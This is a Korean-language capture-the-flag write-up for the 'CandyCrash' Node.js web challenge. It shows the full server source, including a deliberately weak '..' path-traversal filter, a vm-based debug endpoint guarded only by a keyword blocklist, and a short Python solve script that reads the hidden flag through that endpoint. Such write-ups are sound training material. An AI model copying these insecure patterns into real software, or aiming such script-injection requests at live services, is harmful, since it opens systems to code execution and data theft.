

# CandyCrash

: 
구분: 공통 문제
난이도: Easy
분야: Forensics, Web
상태: 작성 완료
생성일: 2026년 8월 16일 오후 9:11
수정일: 2026년 8월 16일 오후 9:11

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | CandyCrash |
| 원본 대회 | m0leCon 2026 Beginner |
| 분야 | Web |
| 난이도 | 초급 · 약 1.5~2/5 |
| 접속 주소 | `http://localhost:1337` |
| 플래그 형식 | `FLAG{...}` |

CandyCrash는 게임 점수를 검증하는 서버와 여러 API 기능으로 구성된 서비스입니다.

게임을 정상적으로 오래 플레이하는 대신, 서버가 제공하는 API와 디버그 기능의 동작을 분석하여 내부에 숨겨진 플래그를 획득하는 것이 목표입니다.



# 1. 문제 요약

- 캔디크러시 게임에서 목표 점수를 얻으면 flag가 나오는 문제
- /api/submit에서 점수가 넘으면 flag를 획득할 수 있지만
- /api/debug/run에서 vm에 property로 설정된 값을 읽어 flag를 획득할 수 있음

---

# 2. 문제 분석

node.js기반 웹 게임

- 전체 코드
    
    ```markdown
    const express = require("express");
    const cors = require("cors");
    const fs = require("fs");
    const path = require("path");
    const vm = require("vm");
    const crypto = require("crypto");
    
    const engine = require("./client/engine.js");
    
    const app = express();
    app.use(express.json({ limit: "1mb" }));
    app.use(cors());
    
    const PORT = Number(process.env.PORT || 3000);
    const TARGET_SCORE = Number(process.env.TARGET_SCORE || 10000);
    const SESSION_TTL_MS = Number(process.env.SESSION_TTL_MS || 1000 * 60 * 30);
    const MAX_MOVES = Number(process.env.MAX_MOVES || 600);
    
    let FLAG = "ptm{placeholder_flag}";
    try {
      FLAG = fs.readFileSync("/app/FLAG", "utf8").trim();
    } catch (err) {
      console.error("[-] Warning: Could not read flag file, using placeholder");
    }
    
    const sessions = new Map();
    const replayDir = path.join(__dirname, "replays");
    fs.mkdirSync(replayDir, { recursive: true });
    
    //세션 만들기
    function createSession() {
      const sessionId = crypto.randomUUID();
      const seed = crypto.randomInt(1, 0x7ffffffe);
      const createdAt = Date.now();
      sessions.set(sessionId, { seed, createdAt, submissions: [] });
      return { sessionId, seed };
    }
    
    function purgeSessions() {
      const now = Date.now();
      for (const [id, session] of sessions.entries()) {
        if (now - session.createdAt > SESSION_TTL_MS) sessions.delete(id);
      }
    }
    setInterval(purgeSessions, 5 * 60 * 1000).unref();
    
    function replaySession(seed, submittedMoves) {
      const rng = engine.createRng(seed);
      const board = engine.generateBoard(rng);
      const moves = Array.isArray(submittedMoves) ? submittedMoves.slice(0, MAX_MOVES) : [];
      const timeline = [];
      let score = 0;
      for (let idx = 0; idx < moves.length; idx++) {
        const move = moves[idx] || {};
        const from = Number(move.from);
        const to = Number(move.to);
        if (!Number.isInteger(from) || !Number.isInteger(to)) continue;
        const result = engine.attemptMove(board, from, to, rng);
        if (!result.valid) {
          timeline.push({ idx, from, to, accepted: false, delta: 0 });
          continue;
        }
        score += result.score;
        timeline.push({ idx, from, to, accepted: true, delta: result.score });
      }
      return { score, timeline };
    }
    //그냥 잘 동작하나 백엔드
    app.get("/api/health", (req, res) => {
      res.json({ status: "ok", sessions: sessions.size, targetScore: TARGET_SCORE });
    });
    
    //세션 만들기 
    app.post("/api/session", (req, res) => {
      const { sessionId, seed } = createSession();
      res.json({ sessionId, seed, targetScore: TARGET_SCORE });
    });
    
    //플래그 검사
    app.post("/api/submit", (req, res) => {
      
      //입력값 검사
      const { sessionId, moves } = req.body || {};
      if (!sessionId) return res.status(400).json({ error: "Missing sessionId" });
      
      //세션이 존재하는지 검사
      const session = sessions.get(sessionId);
      if (!session) return res.status(404).json({ error: "Unknown session" });
      
      //스코어 계산
      const { score, timeline } = replaySession(session.seed, moves);
      
      //submission에 푸시
      session.submissions.push({ at: Date.now(), score });
      const filePath = path.join(replayDir, `${sessionId}.json`);
      fs.writeFileSync(filePath, JSON.stringify({sessionId, seed: session.seed, timeline, moves}, null, 2));
    
      //플래그 조건
      if (score >= TARGET_SCORE) {
        return res.json({ score, verified: true, flag: FLAG, timeline });
      }
      res.json({ score, verified: false, remaining: Math.max(TARGET_SCORE - score, 0), timeline });
    });
    
    app.get("/api/replays", (req, res) => {
      const fileParam = typeof req.query.file === "string" ? req.query.file : "";
    
      if (!fileParam) {//빈입력
        const entries = fs.readdirSync(replayDir).map((name) => ({ name }));
        return res.json({ files: entries });
      }
      const sanitized = fileParam.replace(/\.\./g, "");
      const target = path.join(replayDir, sanitized);
      fs.readFile(target, "utf8", (err, data) => {
        if (err) return res.status(404).json({ error: "Replay not found" });
        res.type("application/json").send(data);
      });
    });
    
    app.post("/api/debug/run", (req, res) => {
      //script입력
      const script = (req.body && req.body.script ? String(req.body.script) : "").trim();
      if (!script) return res.status(400).json({ error: "Empty script" });
      if (script.length > 2000) return res.status(400).json({ error: "Script too long" });
      if (/process|require|global/i.test(script)) {
        return res.status(400).json({ error: "Blocked tokens" });
      }
     //세션값 검증
      const sessionId = req.body && req.body.sessionId;
      const session = sessions.get(sessionId) || null;
      if (sessionId && !session) return res.status(404).json({ error: "Unknown session" });
      //난수 생성
      const sandboxRng = engine.createRng(session ? session.seed : 1337);
      const output = [];
     //센드박스 생성 
      const sandbox = {
        console: { log: (...args) => output.push(args.map((a) => String(a)).join(" ")) },
        timeline: session ? session.submissions : [],
        getNextRandom: () => sandboxRng(),
        setResult(value) { sandbox.result = value; },
        Buffer,
      };
     // falg값 설정 
      Object.defineProperty(sandbox, "__internalFlag", {
        value: FLAG,
        enumerable: false,
        writable: false,
      });
    
      sandbox.inspectReplay = function inspectReplay(file) {
        const trimmed = typeof file === "string" ? file.replace(/\.\./g, "") : "";
        const filePath = path.join(replayDir, trimmed);
        return fs.readFileSync(filePath, "utf8");
      };
    
      vm.createContext(sandbox);
      try {
        const result = vm.runInContext(script, sandbox, { timeout: 250 });
        res.json({ result: sandbox.result ?? result ?? null, logs: output });
      } catch (error) {
        res.status(400).json({ error: error.message, logs: output });
      }
    });
    
    app.get("/engine.js", (_req, res) => {
      res.sendFile(path.join(__dirname, "client", "engine.js"));
    });
    
    app.use(express.static(path.join(__dirname, "public")));
    
    app.get("/", (_req, res) => {
      res.sendFile(path.join(__dirname, "public", "index.html"));
    });
    
    app.use((req, res) => res.status(404).json({ error: "Not found" }));
    app.listen(PORT, () => console.log(`[+] Candy Crash backend listening on port ${PORT}`));
    
    ```
    
- 핵심
    
    ```markdown
    Candy~ - / index.html 캔디크러시 게임
    			 - /api/replays 리플레이 확인(fileParam.replace(/\.\./g, "")으로 필터링)
    			 - /api/health 동작 확인
    			 - /api/submit 스코어 값이 넘으면 플래그 반환  
    			 - /api/debug/run	샌드박스에서 명령어 실행
    ```
    

---

# 3. 풀이과정

- /api/debug/run에 script 값으로 setResult(__internalFlag)전달

```markdown
    Object.defineProperty(sandbox, "__internalFlag", {<-flag vm에 설정
    value: FLAG,
    enumerable: false, <- 열거 거부(Object.keys(this))
    writable: false, <- 수정만 못할 뿐 조회가능
  });
  setResult(value) { sandbox.result = value; } <- 샌드박스 생성자에서 이 함수 선언
  vm.createContext(sandbox);
  try {
    const result = vm.runInContext(script, sandbox, { timeout: 250 });<-실행
    res.json({ result: sandbox.result ?? result ?? null, logs: output });
    }
```

- solve.py

```markdown
import requests

url ="http://127.0.0.1:1337/api/debug/run"
body = {
  "script": "setResult(__internalFlag)"
}
response = requests.post(url=url, json=body)
print(response.json())

```


---

# 4. 기록

- vm 문제를 볼때 Object.getOwnPropertyNames(this)를 보면 전역 객체에 뭐가 있는 지 확인 가능
- `vm.createContext(sandbox)`
    - `sandbox` 객체를 실행 컨텍스트의 전역 객체처럼 만듭니다.
    - 그래서 `sandbox.foo = 123`이면 VM 안에서 그냥 `foo`로 접근 가능합니다.
- `vm.runInContext(script, sandbox)`
    - 문자열 `script`가 실제 JavaScript로 실행됩니다.
    - 마지막 표현식의 값이 반환값이 됩니다.